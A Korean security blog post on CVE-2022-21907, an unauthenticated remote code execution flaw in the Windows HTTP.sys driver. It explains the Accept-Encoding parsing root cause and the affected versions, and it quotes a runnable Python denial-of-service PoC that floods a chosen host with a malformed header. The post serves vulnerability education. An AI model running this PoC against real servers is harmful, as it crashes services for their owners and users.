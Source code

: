 ```yaml
---
title: "[하루한줄] CVE-2022-21907: Windows HTTP 프로토콜 원격 코드 실행 취약점"
author: L0ch
tags: [L0ch, http, windows, rce, cve]
categories: [1day1line]
date: 2022-01-20 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://github.com/antx-code/CVE-2022-21907](https://github.com/antx-code/CVE-2022-21907)

## Target

- Windows 10 Version 1809, 20H2, 21H1
- Windows 11
- Windows Server 

## Explain
2022년 1월 Patch Tuesday에서 Windows의 http 메시지 파싱과 response 생성을 처리하는 `HTTP.sys` 드라이버에서 시스템 권한으로 원격 코드 실행이 가능한 취약점이 패치되었습니다.

패치 릴리즈 이후 PoC가 공개되었는데, 해당 취약점은 작년에 발견된 **[[하루한줄\] CVE-2021-31166: HTTP.sys 원격 코드 실행 취약점](https://hackyboiz.github.io/2021/05/19/fabu1ous/2021-05-19/)** 과 비슷한 유형의 root cause로 악용이 가능한 것으로 확인되었습니다. CVE-2021-31166과 동일하게 HTTP request header 중 `Accept-Encoding` 필드를 파싱하는 과정에서 원격 코드 실행으로 이어질 수 있습니다.

공개된 Denial of Service PoC의 일부는 아래와 같습니다.

```python
host = input("Target: ")

headers = {
    "Accept-Encoding": 'AAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&AA&**AAAAAAAAAAAAAAAAAAAA**A,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,AAAAAAAAAAAAAAAAAAAAAAAAAAA,****************************AAAAAA, *, ,'
}

try:
    response  = urlopen(f"http://{host}")
except (URLError, HTTPError) as e:
    pass
except Exception as e:
    print(f"http://{host} is not DOWN.")
    print(f"{e.__class__}: {e}", file = stderr)
    exit(1)

print(f"http://{host} is not UP. Start hacking...")

while True:
    try:
        response  = urlopen(Request(f"http://{host}", headers=headers))
    except TimeoutError as e:
    	print(f"http://{host} is not DOWN. {host} is vulnerable to CVE-2022-21907.")
    	exit(0)
    except (URLError, HTTPError) as e:
    	pass
    except Exception as e:
        print(f"{e.__class__}: {e}")

    print(f"Payload sent successfully. Try new request...")
```

> 출처 : https://github.com/mauricelambert/CVE-2022-21907/blob/main/CVE202221907.py

해당 취약점은 인증 과정 없이 악성 http 패킷을 서버에 보내기만 하는 것으로 악용할 수 있어 cvss 9.8의 높은 점수를 받았습니다.